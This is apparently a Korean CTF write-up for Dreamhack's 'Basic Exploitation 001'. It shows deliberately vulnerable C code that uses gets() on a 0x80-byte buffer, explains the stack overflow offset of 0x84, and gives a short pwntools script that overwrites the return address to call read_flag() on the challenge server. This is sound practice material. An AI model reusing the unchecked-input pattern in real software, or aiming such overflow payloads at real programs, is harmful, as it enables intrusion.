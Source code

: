 ```yaml
---
title: "[pwn]Basic Exploitation 001"
excerpt: "Dreamhack Basic Exploitation 001"
category: CTF
tags: [pwnable]
toc: true
toc_label: "Table of Contents"
toc_sticky: true
---
```

1. 환경 확인  
**file** 명령어로 i386, LE 환경인것을 확인한다.

2. code 확인  
~~~
void read_flag(){
    system("cat /flag");
}
int main(int argc, char *argv[]){
    char buf[0x80];
    initialize();
    gets(buf); // gcc에서도 경고하는 gets
    return 0;
}
~~~

코드에서 알수 있듯이 버퍼의 크기는 0x80, **gets()** 함수는 입력의 크기를 확인하지 않고 받는다. 따라서 Stack Buffer Overflow를 이용해서 exploit할수 있다. 심지어 친절하게 **read_flag()** 함수를 만들어 두어서 shellcode를 사용하지 않아도 된다.  

3. payload 작성  
메모리를 확인하면 $esp에 0x80 크기의 버퍼를 두고 4byte의 SFP, 그뒤에 main 함수의 ret 주소가 있다.  
따라서 0x84 크기의 dummy와 **read_flag()** 의 주소 0x080485B9를 **p32()** 를 통해 LE로 넣는다.  

4. script 작성
~~~
from pwn import *

p=remote('host1.dreamhack.games',22850)
payload=b'A'\*0x84+p32(0x080485B9)
p.sendline(payload)
p.interactive()
~~~

<img width="614" alt="Script exec" src="https://user-images.githubusercontent.com/45323902/154213519-80a0e1e2-1867-4239-a9d0-67903df5a605.png">
